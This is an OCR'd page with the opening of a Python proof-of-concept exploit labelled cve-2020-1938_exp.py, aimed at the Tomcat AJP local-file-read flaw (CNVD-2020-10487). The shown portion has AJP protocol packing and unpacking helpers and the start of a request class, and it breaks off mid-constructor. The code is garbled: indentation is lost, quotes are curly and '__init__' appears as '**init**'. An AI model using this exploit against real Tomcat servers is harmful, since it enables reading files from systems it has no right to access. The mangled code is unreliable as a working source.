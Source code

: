 ### poc

```
cve-2020-1938_exp.py 
```

```
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:

# [https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html)

def pack_string(s):

if s is None:

return struct.pack(">h", -1)

l = len(s)

return struct.pack(">H%dsb" % l, l, s.encode(‘utf8’), 0)

def unpack(stream, fmt):

size = struct.calcsize(fmt)

buf = stream.read(size)

return struct.unpack(fmt, buf)

def unpack_string(stream):

size, = unpack(stream, “>h”)

if size == -1: # null string

return None

res, = unpack(stream, “%ds” % size)

stream.read(1) # \0

return res

class NotFoundException(Exception):

pass

class AjpBodyRequest(object):

# server == web server, container == servlet

SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)

MAX_REQUEST_LENGTH = 8186

def **init**(self, data_stream, data_len, data_direction=None):

self.data_stream = data_stream
```